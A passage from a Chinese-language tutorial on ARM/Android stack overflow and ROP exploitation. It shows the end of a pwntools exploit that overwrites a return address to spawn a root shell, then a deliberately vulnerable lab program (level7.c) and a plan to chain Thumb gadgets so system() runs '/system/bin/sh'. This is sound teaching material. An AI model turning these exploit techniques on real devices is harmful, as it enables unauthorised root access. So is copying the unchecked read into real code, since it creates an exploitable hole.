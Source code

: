     callsystemaddr = 0x00008554 + 1
    payload =  'A'*132 + p32(callsystemaddr)
    
    p.send(payload)
    
    p.interactive()
    

执行效果如下：

    
    
    #!bash
    $ python level6.py 
    [+] Opening connection to 127.0.0.1 on port 10001: Done
    [*] Switching to interactive mode
    $ /system/bin/id
    uid=0(root) gid=0(root) context=u:r:shell:s0
    

# 0x02 寻找thumb gadgets

* * *

下面我们来看第二个程序level7.c：

    
    
    #!c
    #include<stdio.h>
    #include<stdlib.h>
    #include<unistd.h>
    
    char *str="/system/bin/sh";
    
    void callsystem()
    {
    system("id");
    }
    
    void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 256);
    }
    
    int main(int argc, char** argv) {
    if (argc==2&&strcmp("passwd",argv[1])==0)
    callsystem();
    write(STDOUT_FILENO, "Hello, World\n", 13);    
    vulnerable_function();
    }
    

在这个程序里，我们即使知道密码，也仅仅只能执行”id”这个命令，我们的目标是获取到一个可以使用的shell，也就是执行`system("/system/bin/sh")`。怎么办呢？这里我们就需要来寻找可利用的gadgets，先让r0指向`"/system/bin/sh"`这个字符串的地址，然后再调用system()函数达到我们的目的。

如何寻找gadgets呢？虽然用ida或者objdump也可以进行查找，但比较费时费力，这里我推荐使用ROPGadget。因为level7默认会编译成thumb指令，所以我们也采用thumb模式查找gadgets:

